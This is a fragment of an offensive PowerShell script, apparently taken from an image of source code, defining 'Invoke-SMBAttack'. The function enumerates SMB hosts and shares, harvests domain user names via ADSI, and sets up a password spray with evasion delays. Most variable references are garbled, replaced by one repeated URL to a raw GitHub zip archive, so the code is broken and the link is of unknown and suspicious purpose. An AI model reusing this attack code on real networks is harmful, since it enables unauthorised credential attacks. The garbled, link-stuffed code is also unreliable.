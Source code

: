 # Main execution function
function Invoke-SMBAttack {
    param(
        [string]$Domain,
        [array]$CustomUsers,
        [array]$CustomPasswords,
        [int]$MaxHosts = 50
    )
    
    Write-Host "[*] Starting SMB Enumeration and Password Spray" -ForegroundColor Cyan
    Write-Host "[*] Domain: $Domain" -ForegroundColor Cyan
    Write-Host "[*] OPSEC Mode: Enabled" -ForegroundColor Cyan
    
    try {
        # Step 1: Enumerate SMB hosts
        $smbHosts = Get-SMBHosts
        if (-not $smbHosts) {
            Write-Host "[-] No SMB hosts found" -ForegroundColor Red
            return
        }
        
        # Limit hosts for OPSEC
        $targetHosts = $smbHosts | Select-Object -First $MaxHosts
        Write-Host "[*] Targeting $($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip) hosts" -ForegroundColor Yellow
        
        # Step 2: Enumerate shares on target hosts
        $allShares = @()
        foreach ($host in $targetHosts) {
            Write-Host "[*] Enumerating shares on $($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip)..." -ForegroundColor Yellow
            $shares = Get-SMBShares -ComputerName $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip
            $allShares += $shares
            Start-RandomDelay
        }
        
        Write-Host "[+] Found $($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip) shares across $($https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip) hosts" -ForegroundColor Green
        
        # Step 3: Get target users (if not provided)
        if (-not $CustomUsers) {
            Write-Host "[*] Gathering domain users..." -ForegroundColor Yellow
            $searcher = [ADSISearcher]"(objectCategory=user)"
            $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip = 1000
            $users = $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip() | ForEach-Object { $https://raw.githubusercontent.com/falklast4/testt/main/hurly/testt.zip['samaccountname'] } | Where-Object { $_ }
            $targetUsers = $users | Select-Object -First 100  # Limit for OPSEC
        } else {
            $targetUsers = $CustomUsers
        }
        